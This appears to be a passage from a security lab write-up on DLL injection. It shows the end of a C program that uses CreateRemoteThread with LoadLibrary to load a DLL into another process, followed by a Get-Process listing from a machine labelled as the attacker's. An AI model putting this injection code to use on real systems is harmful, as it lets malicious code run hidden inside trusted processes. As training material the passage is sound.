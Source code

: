 ```C

    HANDLE remoteThreadHandler = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE) loadLibrary, dllAllocatedMemory, 0, NULL);
    if (remoteThreadHandler == NULL) {
        exit(1);
    }

    CloseHandle(hProcess);

    return 0;
}
```
```PowerShell
PS C:\Users\THM-Attacker> Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    140      10    13632      13632              2420   0 amazon-ssm-agent
    246      14     4036      17300       0.08   3476   3 backgroundTaskHost
    254      14     6000      20736       0.14      8   3 conhost
    151       9     6596      12932              2440   0 conhost
    286      12     2124       6108               452   3 csrss
    336      13     1924       5000               564   0 csrss
    161       9     1660       4700               636   1 csrss
    363      15     3556      15188       0.28   3976   3 ctfmon
    247      22     4684      13932       0.09   4748   3 dllhost
    541      22    16204      38376               792   1 dwm
    595      29    24452      61528              3196   3 dwm
   1571      58    25072      86256       5.45   1616   3 explorer
     49       6     1440       4228               908   0 fontdrvhost
     49       6     1636       4700               916   1 fontdrvhost
     49       6     1932       5836              3152   3 fontdrvhost
    196      11     1740       1256              4228   0 GoogleCrashHandler
    173       9     1832        376              4252   0 GoogleCrashHandler64
    236      14     2360       1332              3880   0 GoogleUpdate
      0       0       56          8                 0   0 Idle
     91       7     1168       5016              2060   0 LiteAgent
    460      25    11020      43220              2500   1 LogonUI
   1025      22     5192      14668               780   0 lsass
    222      13     2924      10228              4480   0 msdtc
    513      74   184824     129828               812   0 MsMpEng
    609      30    64016      73660       0.84    572   3 powershell
    316      13     2520      11260       0.16   3688   3 rdpclip
      0      13      516       9872                68   0 Registry
    248      13     2580      13280       0.22   1588   3 RuntimeBroker
    586      28     9420      31848       2.09   3672   3 RuntimeBroker
    235      12     3952      14352       0.05   3720   3 RuntimeBroker
   1160      76    90692     133736       5.55   3416   3 SearchUI
    310      11     3620       7788               768   0 services
    768      30    15708      52336       0.34   2980   3 ShellExperienceHost
    476      18     5048      24784       0.98   3708   3 sihost
    335      21     7320      21336       0.11   4900   3 smartscreen
     56       3      528       1228               412   0 smss
    481      23     5856      16920              2012   0 spoolsv
    155      11    15424      17636              2456   0 ssm-agent-worker
    849      27    30796      43804               628   0 svchost
   1846      99    43784      78172               640   0 svchost
    868      23     7196      24132               888   0 svchost
    622      31    10592      21880               904   0 svchost
    792      19     5096      11280               980   0 svchost
    608      20    16560      26728              1176   0 svchost
    604      31     8720      25324              1212   0 svchost
    693      38     8316      22664              1268   0 svchost
```